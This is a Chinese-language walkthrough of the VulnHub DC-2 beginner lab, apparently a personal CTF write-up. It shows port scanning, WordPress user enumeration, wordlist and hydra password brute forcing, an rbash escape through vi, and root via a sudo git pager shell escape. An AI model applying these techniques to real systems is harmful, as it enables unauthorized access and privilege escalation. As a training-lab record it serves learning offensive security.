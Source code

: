 # DC: 2

2024-5-28 https://www.vulnhub.com/entry/dc-2,311/

difficulty: beginners

## IP

192.168.5.28

## Scan

Open Port -> 80,7744

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Did not follow redirect to http://dc-2/
|_http-server-header: Apache/2.4.10 (Debian)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey:
|   1024 52517b6e70a4337ad24be10b5a0f9ed7 (DSA)
|   2048 5911d8af38518f41a744b32803809942 (RSA)
|   256 df181d7426cec14f6f2fc12654315191 (ECDSA)
|_  256 d9385f997c0d647e1d46f6e97cc63717 (ED25519)
```

根据靶场描述，将 192.168.5.28 dc-2 添加到 /etc/hosts 中。

访问 http://dc-2/ 发现首页是一个 wordpress 网站。gobuster 进行目录扫描：

```
gobuster -t 64 dir -u http://dc-2/ -k -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x php,txt,html -e

```

没有扫描出非 wordpess CMS 自带的连接，这里的漏洞利用点 1 是找到用户名和密码登陆后台，反弹 shell；2 是找到有漏洞的 plugin 进行利用。

wpscan 先搜集下用户名：

```
wpscan --url http://dc-2/ -e u

admin、jerry、tom
```

http://dc-2/index.php/flag/ 中给出了收集密码的提示，使用 cewl:

```
cewl -d 5 http://dc-2/ -w pass.txt
wpscan --url http://dc-2/ -P pass.txt -t 20
```

找到了 2 个用户的密码：

```
Username: jerry, Password: adipiscing
Username: tom, Password: parturient
```

登陆 wordpress 看看哪个用户可以写 php 文件。

得到了 flag2 的提示：

```
Flag 2:

If you can't exploit WordPress and take a shortcut, there is another way.

Hope you found another entry point.
```

发现这两个用户都没有特殊权限，前面还开放了一个 7744 ssh 端口，尝试用 hydra 看看前面得到的 2 个用户凭据，能不能通过 ssh 登陆。

找到 tom 的 ssh 登陆密码：

```
7744][ssh] host: 192.168.5.28   login: tom   password: parturient
```

登陆 ssh，提示 rbash，需要绕过获得完整的命令权限：

```
echo $SHELL
echo $PATH

rbash$ vi
:set shell=/bin/bash
:shell

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

这时能得到一个比较完整的 bash。

vi flag3.txt 得到了 flag3 的内容：

```
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```

根据提示，需要使用 su, su jerry 输入 jerry 在 wordpress 上的密码 adipiscing ，成功切换。

vi /home/tom/flag4.txt 得到了 flag4 的内容：

```
Good to see that you've made it this far - but you're not home yet.

You still need to get the final flag (the only flag that really counts!!!).

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```

sudo -l 显示：

```
(root) NOPASSWD: /usr/bin/git
```

可以提权至 root:

```
sudo -u root git -p help config
!/bin/sh

root@DC-2:/home/jerry# id
uid=0(root) gid=0(root) groups=0(root)
root@DC-2:/home/jerry# cd /root
root@DC-2:~# ls
final-flag.txt
root@DC-2:~# cat final-flag.txt
 __    __     _ _       _                    _
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```

最后看一下 ssh_config ,为什么 tom 能够 ssh 远程登陆，而 jerry 不能？

```
cat /etc/ssh/sshd_config

AllowUsers tom   # 只有tom在白名单中
```

